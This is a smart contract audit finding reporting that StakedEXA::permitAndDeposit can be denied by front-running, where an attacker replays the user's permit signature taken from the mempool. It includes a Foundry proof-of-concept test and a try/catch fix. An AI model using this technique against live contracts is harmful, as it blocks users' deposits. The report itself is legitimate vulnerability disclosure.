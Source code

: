 Magic Glossy Corgi

Medium

# `StakedEXA::permitAndDeposit` function is vulnerable to DOS via frontrunning

## Summary
Attacker can front run the transactions to `StakedEXA::permitAndDeposit` function, causing them to revert 

## Vulnerability Detail
`StakedEXA::permitAndDeposit` function  is susceptible to DOS via frontrunning. An attacker can observe the transaction in the mempool, extract the permit signature and values from the calldata and execute the permit before the original transaction is processed. This would consume the nonce associated with the user's permit and cause the original transaction to fail due to the now-invalid nonce.

This attack vector has been previously described in [Permission Denied - The Story of an EIP that Sinned](https://www.trust-security.xyz/post/permission-denied) .

## Impact
Transactions will revert due to DOS

## Code Snippet
https://github.com/sherlock-audit/2024-07-exactly-stacking-contracts/blob/main/protocol/contracts/StakedEXA.sol#L173-L176

## Proof of Concept
```javascript
function testPermitAndDeposit() external {
    uint256 assets = 1_000e18;
    exa.mint(BOB, assets);

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(
      BOB_KEY,
      keccak256(
        abi.encodePacked(
          "\x19\x01",
          exa.DOMAIN_SEPARATOR(),
          keccak256(
            abi.encode(
              keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)"),
              BOB,
              address(stEXA),
              assets,
              0,
              block.timestamp
            )
          )
        )
      )
    );

    vm.prank(address(1337));
    exa.permit(BOB, address(stEXA), assets, block.timestamp, v, r, s);

    vm.prank(BOB);
    vm.expectRevert();
    stEXA.permitAndDeposit(assets, BOB, Permit(assets, block.timestamp, v, r, s));
  }
```

## Tool used

Manual Review

## Recommendation
Consider implementing a try/catch block within the`StakedEXA::permitAndDeposit` function. In this block, if the call to permit fails, the contract should execute the deposit anyway if the allowance is sufficient.
